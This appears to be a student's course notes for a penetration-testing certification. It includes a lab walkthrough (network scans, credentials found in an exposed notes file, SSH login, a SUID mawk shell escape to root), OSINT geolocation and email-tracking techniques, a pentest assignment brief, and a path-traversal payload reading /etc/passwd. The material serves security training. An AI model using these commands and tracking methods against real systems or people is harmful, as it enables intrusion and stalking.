 # ACCE Notes

## 24/10
### RCCE Lvl 2
#### lab 6

```
vboxnet0: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 192.168.5.134

Rocheston:~$ sudo arp-scan 192.168.0.100-192.168.5.163 -I vboxnet0
Interface: vboxnet0, datalink type: EN10MB (Ethernet)
Starting arp-scan 1.9.5 with 1344 hosts (https://github.com/royhills/arp-scan)
192.168.5.132	08:00:27:60:02:47	Cadmus Computer Systems
192.168.5.153	08:00:27:07:a0:19	Cadmus Computer Systems

Rocheston:~$ nmap -sC -sV 192.168.5.153 -vv
PORT    STATE SERVICE REASON  VERSION
22/tcp  open  ssh     syn-ack OpenSSH 6.7p1 Debian 5+deb8u4 (protocol 2.0)
80/tcp  open  http    syn-ack Apache httpd 2.4.10 ((Debian))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Clean Blog - Start Bootstrap Theme
111/tcp open  rpcbind syn-ack 2-4 (RPC #100000)
| rpcinfo: 
|   program version   port/proto  service
|   100000  2,3,4        111/tcp  rpcbind
|   100000  2,3,4        111/udp  rpcbind
|   100024  1          42287/udp  status
|_  100024  1          49362/tcp  status
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Rocheston:~$ sudo dirb http://192.168.5.153

```
/admin = here we can find notes.txt which contains name and password.

sudo ssh ted@192.168.5.153

enter password - 12345ted123

##### Enumerate all binaries that have SUID permission

find / -perm -u=s -type f 2>/dev/null

Execute the following commands

mawk 'BEGIN {system("/bin/sh")}'                to get the shell

id

cd /root

ls

cat flag.txt


OSINT:
OSINT framework
whois
checkusernames
haveibeenpwned
infospace




cd /rcce/whatweb/
runscript

./whatweb paultan.org
./whatweb juggybank.com

CVE to find Vulnerabilities

/rcce/FinalRecon
runscript

cat finalrecon.py
python3.7 finalrecon.py --full http://juggybank.com

exporting to: /home/rocheston/.local/share/finalrecon/dumps/juggybank.com.txt

go to file manager, type in the directory

desktop>desktop1>file manager

/home/rocheston/.local/share.finalrecon/dumps
click juggybank.com.txt

9/9
theHarvester

cd rcce/theHarvester
theHarvester.py

cat theHarvester.py
./theHarvester.py -d petronas -b linkedin

shodan.io (paid search engine)

kamerka.io (good for US)

archive service

www.archive.org

creepy geolocation - geocreepy.com

identify geolocation based on photos

windows 7 in rose.
right click >run program > virtualbox

geocreepy.com on rose virtualbox, install 32bit version

open cree.py
new project name: locate SAJAT
keywords: sajat
description: hired by special branch to locate sajat

email trackers.
www.hubspot.com

gmail tracker

cyberscanner.net/gmail

in terminal, arp-scan --help

arp-scan 10.0.0.1-10.0.0.254

nmap -v -A www.juggybank.com

11/9

question in exam: password spraying


caldera

greynoise.io

https://www.shadowserver.org/

https://cybermap.kaspersky.com/

http://threatmap.checkpoint.com/

cd /usr/share/nmap/scripts/

git clone https://github.com/scipag/vulscan.git

ln -s `pwd`/scipag_vulscan /usr/share/nmap/scripts/vulscan

13/9

Cmseek tool web app module 4

python3 cmseek.py -u website

ACCE Pentest Assignment
Due December 31, 2023 11:59 PM
Instructions
Objective: 
Implement learned penetration testing techniques on a simulated environment in compliance with Payment Card Industry Data Security Standard (PCI DSS), analyze the results, and create a comprehensive penetration test report following the PCI DSS requirements.

Subsequently, analyze the results and compile them into a comprehensive, Microsoft Word document report adhering to the PCI DSS guideline.

Details:

For this assignment, you will step into the role of a cybersecurity consultant hired by a hypothetical company, "Juggy Bank Corporation." Your assignment is to conduct a penetration test on their simulated website system (accessible at http://juggybank.com/ ), complying with the PCI DSS requirements.

The tasks for your assignment include:

Penetration Test Planning and Execution: Plan and perform the penetration testing process according to PCI DSS Requirement 11.3. Your plan should detail each testing procedure's objectives, and take meticulous notes of your actions, observations, and preliminary findings.

Tool Selection and Utilization: Employ appropriate penetration testing tools. Document why and how you used these tools, and ensure the tools comply with PCI DSS Requirement 6.2.


Target Identification: Identify and document the system components potentially impacted by discovered vulnerabilities, adhering to PCI DSS Requirement 6.5.


Vulnerability Referencing: Reference the identified vulnerabilities to known issues, using databases like CVE, CWE, BID, OSVDB, etc. as per PCI DSS Requirement 6.1.


Detailed Reporting of Findings: Describe each finding in detail, indicating how it was discovered, its potential impact, and underlying cause, in alignment with PCI DSS Requirement 11.3.4.


Countermeasure Proposals: Propose countermeasures to alleviate each identified vulnerability. Your recommendations should align with the PCI DSS Requirements (especially Requirement 6.5) and include feasible, cost-effective solutions in line with industry best practices.

To guide your report's format and content, refer to section 5.2.1 'Penetration Test Report Outline' on page 19 of the attached guidelines, and ensure your report aligns with PCI DSS Requirement 11.3.4.

Reference materials

18/9 
question exam: complexity ofcode

file inclusion:
Semester 1 2020/2021
localhost:2063/?page=../../../../../../etc/passwd
or vnc.conf

haja.me/tools/cmd.txt

localhost:90/jsfuck


sqlmap












